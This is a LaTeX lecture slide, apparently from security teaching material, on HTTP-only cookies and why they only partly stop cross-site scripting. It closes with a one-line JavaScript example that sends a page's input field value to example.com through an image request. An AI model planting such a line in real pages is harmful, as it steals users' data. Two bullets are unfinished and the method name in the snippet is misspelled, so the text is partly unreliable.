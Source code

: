 
\begin{frame}<1-2>[fragile,label=HTTPOnlyCookie]{HTTP-only cookies}
    \begin{itemize}
    \item \texttt{Set-Cookie: SessionID=123456789; HttpOnly}
    \item ``only send cookie in HTTP''
    \item cookie is 
    \item eliminates obvious way of exploiting XSS
    \item problem: 
    \end{itemize}
\begin{Verbatim}[fontsize=\small]
(new Image()).src = "https://example.com/?" +
    document.getElementByTagName('input')[0].value
\end{Verbatim}
\end{frame}

